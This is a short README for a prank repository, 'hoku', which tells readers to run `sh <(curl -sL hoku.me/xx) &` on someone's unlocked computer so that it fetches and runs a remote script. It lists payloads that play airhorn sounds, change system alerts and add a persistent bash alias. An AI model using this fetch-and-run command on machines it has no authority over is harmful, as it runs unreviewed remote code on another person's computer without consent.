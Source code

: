 ### :speak_no_evil: hoku :speak_no_evil:

when someone leaves their computer unlocked, you want to do something. this is a repo of silly things you can do. they all follow the same idea. you run

`sh <(curl -sL hoku.me/xx) &`

in their terminal, where `xx` is the two-letter identifier of the prank payload.

-----
`ah`: play an airhorn sound randomly every x seconds, where x is between 0 and 800
 
`al`: change the default mac error sound to an airhorn and start a sleeper as a diversion
 
`er`: play the default mac error sound randomly every x seconds, where x is between 0 and 30
 
`fr`: play Friday by Rebecca Black on friday
 
`ls`: change the default mac error sound to an airhorn and set up a bash alias for `ls` to change it back to an airhorn if it's not already
 
`np`: open text edit and say 'gotcha' randomly every x seconds, where x is between 0 and 800
 

### contributing
if you have an idea for a prank, go ahead and put in a PR :)
